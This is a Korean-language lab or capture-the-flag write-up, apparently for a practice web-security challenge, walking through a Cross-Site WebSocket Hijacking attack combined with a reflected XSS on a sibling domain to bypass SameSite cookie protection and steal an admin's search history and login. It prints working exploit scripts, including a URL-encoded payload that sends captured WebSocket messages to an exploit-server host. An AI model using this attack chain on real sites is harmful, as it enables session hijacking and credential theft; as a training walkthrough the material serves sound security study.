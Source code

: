 # 문제 풀이 시나리오

## 1. 검색 기능 분석

- 검색창에 무언가를 검색하면 검색 기록도 반환됨
- 검색 기록은 세션에 따라 반환됨
- 개발자 툴을 통해 살펴보면 웹소켓 통신을 확인하면 Socket.IO 프로토콜을 확인할 수 있
- CSWSH(Cross-Site WebSocket Hijacking) 취약점 가능성을 발견할 수 있음.
- 페이지 새로고침 시 클라이언트는 READY 메시지를 서버에 보내고, 서버는 해당 세션의 검색 기록을 반환함.
- 단순 new WebSocket(...).send("READY")는 동작하지 않음.
- Socket.IO 클라이언트를 사용해 socket.emit("READY", …) 해야 함.

## 2. CSWSH 취약점 확인

- 참가자는 search.js 코드를 분석하고 공격 스크립트를 작성함.
- 공격 스크립트를 익스플로잇 서버에 보내면, Puppeteer가 이를 자동으로 실행했다고 가정함.
- 즉, 피해자가 실제로 열어보지 않아도, 서버는 공격 스크립트 실행 결과를 victim이 실행한 것처럼 처리함.
    
    ### 2-1. 공격 스크립트 작성
    
    - 웹소켓 주소를 알아내서 READY 메시지를 서버에 보내고 검색 기록을 수집하여 익스플로잇 서버에 전달
        
        ```html
        <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
        <script>
        // exploit.js (참가자가 작성)
        const socket = io("http://web:5000"); // Socket.IO 연결
        socket.on('connect', () => socket.emit("READY", {}));
        socket.on('search_history', (data) => {
          fetch(`http://exploit:8000/collect?job=${jobId}&msg=${btoa(data.search_term)}`);
        });
        </script>
        ```
        
    - /logs 확인해보면 검색 기록이 유출되지만 세션 쿠키가 포함되지 않기 때문에 새 세션의 검색 기록만 얻을 수 있음
    - 서버가 SameSite=Strict이기 때문에 크로스사이트 요청에 쿠키를 보내지 않음을 확인할 수 있음

## 3. sibling domain에서 추가 취약점 발견

- 리소스 응답에 Access-Control-Allow-Origin 헤더가 sibling domain을 허용하는 것 확인
- 해당 페이지에 접속해보면 로그인 폼을 확인할 수 있음
- reflected XSS 취약점이 있는 것을 확인할 수 있음
    - `<script>alert(1)</script>` 보내서 확인 가능
- POST 요청을 GET으로 변환해도 XSS가 동작하는지 확인하고(동작함)
    - burp의 change request method로 가능
- URL로 직접 공격 코드 삽입
- sibling 도메인이 같은 사이트로 간주되어 SameSite 쿠키 제한 우회에 이용 가능함

## 4. SameSite restrictions 우회

- 이전 익스플로잇 스크립트를 URL 인코딩해서 sibling domain의 로그인 페이지의 username 파라미터에 삽입하는 코드 작성
    
    ```html
    <script>
    //sibling domain endpoint /login 뒤에 인코딩한 것 전체 복붙
    document.location="https://cms-0a53007a03d749349b3171130036002b.web-security-academy.net/login?username=%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%33%30%30%37%61%30%33%64%37%34%39%33%34%39%62%33%31%37%31%31%33%30%30%33%36%30%30%32%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%09%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%39%39%30%30%38%64%30%33%37%30%34%39%36%30%39%62%35%63%37%30%63%35%30%31%36%35%30%30%64%62%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b&password=z";
    </script>
    ```
    
- 익스플로잇 서버에서 전송
    
    => 전체 검색 기록이 유출됨. 유출된 기록에 admin 로그인 정보 포함
    

### 5. 로그인

- admin 정보를 통해 로그인하면 flag 획득
